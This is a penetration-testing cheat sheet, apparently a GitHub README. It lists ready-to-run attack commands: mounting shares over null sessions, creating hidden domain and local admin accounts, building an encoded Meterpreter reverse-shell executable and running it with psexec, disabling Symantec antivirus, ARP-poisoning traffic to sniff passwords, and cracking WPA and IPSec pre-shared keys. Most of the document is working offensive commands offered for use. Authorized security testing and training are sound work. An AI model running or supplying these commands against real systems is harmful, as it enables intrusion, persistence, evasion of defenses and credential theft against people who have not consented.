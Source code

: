 Pentesting Cheat Sheet
======================
These are various tips and tricks I have found useful on my pentest engagements. Most of these can be found using Google but I decided to put them in a central location to make them easily accessible. Hope they are as helpful to you as they are to me.

Mounting Shares
---------------
To mount an SMB share using a null session do one of the following depending on
the OS you are using.

    Windows> net use x: \\server\share "" /u:
    Linux> mount -t cifs //server/share -o username=,password= /mnt/point

To mount an NFS share on Linux use.

    mount -t nfs server:/share /mnt/point

Administrative Accounts
-----------------------
Add a new Windows domain admin account.

    net user username password /ADD /DOMAIN
    net group "Domain Admins" username /ADD /DOMAIN

Add a new Windows local admin account.

    net user username password /ADD
    net localgroup Administrators username /ADD

Add a new linux account and put them in the wheel group.

    useradd -G wheel username && echo "username:newpass"|chpasswd

Meterpreter Shell Error
-----------------------
If you get the error, "stdapi_sys_process_execute: Operation failed: 1314",
while trying to drop to as shell in meterpreter, try the code below. This is
a known bug in meterpreter.

    execute -f cmd.exe -c -i -H

Metasploit: Custom Psexec Executable
------------------------------------
The first thing we need to do is generate a custom executable to use with Meterpreter.

    msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4445 R | msfencode -t exe -e x86/shikata_ga_nai -c 5 > custom.exe

Next we need to setup a multi handler to listen for connections.

    msf > use exploit/multi/handler
    msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.0.1
    LHOST => 192.168.0.1
    msf exploit(handler) > set LPORT 4445
    LPORT => 4445
    [*] Started reverse handler on 192.168.0.1:4445
    [*] Starting the payload handler...

In another msfconsole session we need to configure the psexec exploit module to use our custom executable.

    msf > use exploit/windows/smb/psexec
    msf exploit(psexec) > set RHOST 192.168.0.2
    RHOST => 192.168.0.2
    msf exploit(psexec) > set SMBUser user
    SMBUser => user
    msf exploit(psexec) > set SMBPass pass
    SMBPass => pass
    msf exploit(psexec) > set EXE::Custom /path/to/custom.exe
    EXE::Custom => /path/to/custom.exe

Finally, we need to run the exploit. If everything worked then you should see a new meterpreter session open in multi/handler

    msf exploit(psexec) > exploit

Disable Antivirus
-----------------
This command will disable Symantec Endpoint Protection. I find it useful when
I have a basic shell on a box and want to upgrade to Meterpreter but Symantec
stops me.

    c:\program files\symantec\symantec endpoint protection\smc -stop

Use Ettercap to Sniff Traffic
-----------------------------
Ettercap allows us to do arp poisoning and sniff plaintext passwords.

    ettercap -M arp -T -q -i interface /spoof_ip/ /target_ips/ -w output_file.pcap

Cracking WPA/WPA2 PSK
---------------------
Use JtR to generate candidate passwords for aircrack-ng

    john --incremental:all --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap

Use Hashcat to generate candidate passwords for aircrack-ng

    ./hashcat-cli32.bin wordlist -r rules/d3ad0ne.rule --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap

Cracking IPSec Agressive Mode Pre-Shared Key
--------------------------------------------
If you’ve never done this, read these first.
http://www.nta-monitor.com/wiki/index.php/Ike-scan_User_Guide
http://carnal0wnage.attackresearch.com/2011/12/aggressive-mode-vpn-ike-scan-psk-crack.html

To find aggressive mode VPNS use ike-scan.

    ike-scan -A 192.168.1.0/24

If the default transforms don't work use the generate_transforms.sh script from the user guide above.

    generate-transforms.sh | xargs --max-lines=8 ike-scan 10.0.0.0/24

If you find a SonicWALL VPN using agressive mode it will require a group id, the default group id is GroupVPN

    ike-scan 192.168.1.1 -A -id GroupVPN

Use the -P argument to save the handshake to a file, which can be used by psk-crack.

    ike-scan 192.168.1.1 -A -Ppsk_192.168.1.1.txt

Use a dictionary to crack the pre-shared key.

    psk-crack -d /path/to/dictionary psk_192.168.1.1.txt

Create an IP List with Nmap
---------------------------
I find this particularly useful for tools or scripts that operate on new line delimited list of IP addresses. I can use the simple Nmap syntax to create a file with the list of appropriate IPs.

    nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt

Crack Passwords with John and Korelogic Rules
---------------------------------------------
At one point Korelogic released a set of John the Ripper rules in a john.conf file. This bash one liner would grab each ruleset and run JtR with the specified ruleset.

    for ruleset in `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} -w:<wordlist> <password_file> ; done
